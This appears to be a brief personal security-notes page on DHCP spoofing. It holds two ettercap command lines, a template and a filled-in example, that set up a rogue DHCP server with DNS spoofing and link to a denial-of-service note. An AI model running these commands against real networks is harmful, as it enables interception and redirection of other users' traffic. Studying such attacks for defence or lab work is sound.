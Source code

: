# DHCP Spoofing

```
$ sudo ettercap -Tqi <interface> -P dns_spoof -M dhcp:<IP_pool>/<subnet_mask>/<rouge_dns_server_IP>

$ sudo ettercap -Tqi <interface> -P dns_spoof -M dhcp:192.168.0.20-25/255.255.255.0/8.8.8.8
```

---
## References

### Backlinks

- [[Denial of Service|Denial of Service: DHCP]]